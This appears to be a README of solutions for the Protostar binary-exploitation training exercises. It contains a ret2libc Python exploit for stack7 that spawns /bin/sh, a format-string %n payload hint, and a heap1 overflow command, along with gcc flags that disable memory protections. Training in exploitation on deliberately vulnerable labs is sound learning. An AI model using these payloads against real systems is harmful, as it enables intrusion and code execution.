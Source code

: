 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [x] format2
```
%n4u (replace 4 with additional data you want for %n )
```
- [x] format3
- [x] format4

## Heap
- [x] heap0
- [x] heap1
```
./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```
- [ ] heap2
- [ ] heap3

## Network

- [ ] net0
- [ ] net1
- [ ] net2

## Final
- [ ] final0
- [ ] final1
- [ ] final2

## Create a Binary with no stack canary, executable stack and no PIE (Position Independent Code)
```
gcc <input> -o <output> -fno-stack-protector -z execstack -no-pie
```

## Using socat on binary file
attaching binary to the port
```
socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./<Program name>"
```

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget
